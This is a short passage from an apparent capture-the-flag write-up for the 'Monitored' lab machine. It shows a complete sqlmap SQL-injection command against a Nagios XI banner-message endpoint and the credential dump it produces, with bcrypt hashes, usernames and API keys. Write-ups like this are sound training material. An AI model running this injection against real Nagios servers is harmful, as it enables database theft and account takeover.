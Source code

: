 ![image-20250322203812186](./././././././././././Monitored/image-20250322203812186.png)

```
sqlmap -u "https://nagios.monitored.htb/nagiosxi/admin/banner_message-ajaxhelper.php" --data="action=acknowledge_banner_message&id=3" --cookie="nagiosxi=qf82es0u6nb5luhls0kq3rqvub" --batch -p id -t 20 -D nagiosxi -T xi_users -C name,password,username,api_key --dump
```

![image-20250322204150962](./././././././././././Monitored/image-20250322204150962.png)

```
name: Nagios Administrator 
password: $2a$10$825c1eec29c150b118fe7unSfxq80cf7tHwC0J0BG2qZiNzWRUx2C 
username: nagiosadmin
api_key:IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL

name:svc
password:$2a$10$12edac88347093fcfd392Oun0w66aoRVCrKMPBydaUfgsgAOUHSbK 
username:svc
api_key:2huuT2u2QIPqFuJHnkPEEuibGJaJIcHCFDpDb29qSFVlbdO4HJkjfg2VpDNE3PEK
```
